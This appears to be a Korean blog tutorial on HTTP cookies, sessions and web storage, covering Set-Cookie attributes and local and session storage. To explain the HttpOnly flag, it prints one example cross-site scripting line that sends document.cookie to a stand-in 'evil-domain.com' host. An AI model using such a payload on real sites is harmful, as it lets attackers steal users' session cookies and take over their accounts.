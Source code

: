 ```yaml
---
title: 쿠키, 세션 그리고 웹 스토리지
date: 2019-04-16 22:59:48
categories: 
  - WEB
tags: 
  - study
---
```


웹 프로그래밍을 하다 보면 자주 접하게 되는 쿠키, 세션, 웹 스토리지에 대해 간략히 정리해보았습니다.

<!-- more -->

**쿠키**, **세션**, **웹 스토리지**를 설명하기에 앞서 왜 사용하는지를 더 쉽게 이해하기 위해 **HTTP 프로토콜**의 특징을 알아보겠습니다.

### HTTP 프로토콜의 특징

- **비연결지향 (Connectionless)**: 클라이언트가 서버에게 Request를 보내고 서버가 클라이언트에게 Response를 보내면 접속을 종료한다.
- **무상태 (Stateless)**: 통신이 끝나면 상태 정보를 유지하지 않는다.

즉, 클라이언트의 로그인 정보나 브라우저에서 입력한 값 등이 페이지를 이동할 때 마다 초기화 되는 것입니다. 이러한 문제점을 해결하기 위해 데이터 저장에 사용하는 것이 **쿠키**, **세션** 그리고 **웹 스토리지**입니다.

### 쿠키

**쿠키**는 클라이언트 로컬에 저장되는 키와 값 형태의 작은 파일로 이름, 값, 만료 시간, 경로 정보가 들어있습니다.
**쿠키**는 주로 세 가지 목적을 위해 사용됩니다.  
- **세션 관리**: 서버에 저장해야 할 로그인, 장바구니, 게임 스코어 등의 정보 관리
- **사용자 맞춤**: 사용자가 선호하는 옵션이나 테마 등의 세팅
- **사용자 추적**: 사용자의 행동을 기록하고 분석하는 용도 

**Response Header**의 `Set-Cookie` 속성을 사용하면 클라이언트에 쿠키를 만들 수 있으며 만들어진 쿠키는 클라이언트가 따로 설정하지 않아도 브라우저가 **Request Header**에 넣어서 서버로 전송하게 됩니다.

서버의 HTTP 응답 헤더에서 쿠키를 설정합니다.

```
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: name=hellozin
Set-Cookie: job=developer
```

이후 클라이언트에서 보내는 모든 요청에 브라우저는 `Cookie` 헤더를 통해 저장된 모든 쿠키를 전송합니다.

```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: name=hellozin; job=developer
```

이렇게 만들어진 쿠키는 **스코프**에 의해 크게 두가지로 나눌 수 있습니다.

- 클라이언트가 종료되면 삭제되는 휘발성 쿠키인 `Session Cookie`
- 클라이언트가 종료되어도 일정 기간 유지되는 `Permanent Cookie`

**Permanent Cookie**는 `Expires(날짜와 시간)` 혹은 `Max-Age(초)` 를 명시해 해당 날짜, 혹은 시간까지 쿠키를 유지할 수 있고 아무것도 명시하지 않을 경우 **Session Cookie** 가 됩니다.

```
Set-Cookie: name=hellozin; Expires=Wed, 21 Oct 2019 07:28:00 GMT;
```
> 명시된 만료일, 시간은 서버가 아닌 클라이언트를 기준으로 계산됩니다.

**Domain** 과 **Path** 속성은 쿠키의 스코프를 정의합니다.  
**Domain** 속성이 명시되면 해당 쿠키는 서브 도메인에도 포함되고 명시되지 않을 경우 현재 문서 위치의 호스트 일부를 기본값으로 합니다.

```
Domain=naver.com 의 쿠키가 포함되는 서브도메인의 예
- news.naver.com
- m.naver.com
```

**Path** 속성이 명시되면 해당 쿠키는 명시된 path가 포함된 서브 디렉토리에 포함됩니다.

```
Path=/docs 의 쿠키가 포함되는 서브디렉토리의 예
- /docs/Web/
- /docs/Web/HTTP
```

**Secure** 속성은 HTTPS 프로토콜로 암호화 된 요청일 경우에만 쿠키가 포함됩니다. 하지만 Secure 속성을 추가하더라도 안전하다고 볼 수 없기 때문에 민감한 정보는 쿠키에 추가해서는 안됩니다.

**HttpOnly** 속성은 자바스크립트의 `Document.cookie` API를 통 에 의해 쿠키가 접근되는 것을 방지합니다. 이를 통해 인증된 정보를 자바스크립트를 통해 탈취하는 Cross-site 스크립팅(XXS) 공격을 막는데 도움을 줍니다.

```
Set-Cookie: password=DontDoThat; Secure; HttpOnly
```

Cross-site 스크립팅(XXS) 공격의 예
```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

### 세션

세션이란 일정 시간동안 같은 브라우저로 부터 들어오는 일련의 요구를 하나의 상태로 보고 그 상태를 유지하는 기술입니다.

클라이언트가 **Request** 를 보내면 **Response** 에 `Set-Cookie` 를 통해 클라이언트의 **유일한 ID값**을 생성해 부여하고 이를 통해 사용자 정보는 안전한 서버에 존재하며 클라이언트와 서버 간에는 ID 값만을 전달해 보안 위협을 감소시켜 줍니다.

이 때 클라이언트에 저장되는 쿠키는 세션 종료 시 함께 소멸되는 "Memory Cookie" 타입을 가져 브라우저가 종료되면 세션과 관련된 쿠키도 삭제됩니다.

### 웹 스토리지

**웹 스토리지**는 서버가 아닌, 클라이언트에 데이터를 저장할 수 있도록 지원하는 **HTML5**의 새로운 기능입니다.

**쿠키**와 기능 자체는 유사하지만 **4KB** 밖에 저장하지 못하는 쿠키와 다르게 **웹 스토리지**는 약 **5MB** 까지 저장공간을 이용할 수 있습니다. 웹 스토리지의 최신 스펙은 https://www.w3.org/TR/webstorage/ 에서 확인할 수 있습니다.

웹 스토리지에는 **로컬 스토리지(local Storage)** 와 **세션 스토리지(session Storage)** 가 있습니다. 로컬 스토리지와 세션 스토리지는 각각의 고유한 특성이 있으며, 프로그래머의 필요에 따라 선택적으로 사용됩니다. 다음 항목에서는 로컬 스토리지와 세션 스토리지에 대한 각각의 특성에 대해 설명합니다.

#### 로컬 스토리지

**로컬 스토리지**는 브라우저 자체에 **반영구적**으로 데이터를 저장하며, 브라우저를 종료해도 데이터가 유지됩니다. 다만 **도메인(domain)이 다른 경우** 로컬 스토리지에 접근할 수 없습니다. 예를 들어 `naver.com` 로컬 스토리지에서 저장한 데이터는 `google.com` 에서 접근할 수 없는 것과 같습니다.

#### 세션 스토리지

**세션 스토리지**는 각 세션마다 데이터가 **개별적으로 저장**되며 로컬 스토리지와 다르게 세션을 종료하면 데이터가 **자동으로 제거**되며 같은 도메인이라도 **세션이 다르면** 데이터에 접근할 수 없습니다.

### Reference

- [HTTP 쿠키 / MDN](https://developer.mozilla.org/ko/docs/Web/HTTP/Cookies)
- [쿠키 옵션 - path & domain / 생활코딩](https://opentutorials.org/course/3387/21745)
- [쿠키와 세션의 차이, 용도, 사용법 / 기본기를 쌓는 정아마추어 코딩블로그](https://jeong-pro.tistory.com/80)
- [웹 스토리지 (Web Storage)의 특성과 사용법 / Bool](https://untitledtblog.tistory.com/47)